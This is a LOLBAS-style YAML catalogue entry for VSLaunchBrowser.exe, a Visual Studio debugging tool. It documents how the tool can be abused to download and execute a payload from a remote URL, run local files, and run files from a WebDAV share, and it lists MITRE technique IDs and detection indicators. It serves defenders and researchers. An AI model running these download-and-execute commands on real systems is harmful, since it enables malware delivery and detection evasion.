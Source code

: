 ```yaml
---
Name: VSLaunchBrowser.exe
Description: Microsoft Visual Studio browser launcher tool for web applications debugging
Author: Avihay Eldad
Created: 2024-04-12
Commands:
  - Command: VSLaunchBrowser.exe .exe http://example.com/payload
    Description: Download and execute payload from remote server
    Usecase: It will download a remote file to INetCache and open it using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
  - Command: VSLaunchBrowser.exe .exe C:\Windows\System32\calc.exe
    Description: Execute payload via VSLaunchBrowser as parent process
    Usecase: It will open a local file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: VSLaunchBrowser.exe .exe \\Server\Path\file
    Description: Execute payload from WebDAV server via VSLaunchBrowser as parent process
    Usecase: It will open a remote file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\{version}\Community\Common7\IDE\VSLaunchBrowser.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\{version}\Community\Common7\IDE\VSLaunchBrowser.exe
Detection:
  - IOC: cmd.exe as sub-process of VSLaunchBrowser
  - IOC: URL on a VSLaunchBrowser command line
  - IOC: VSLaunchBrowser making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

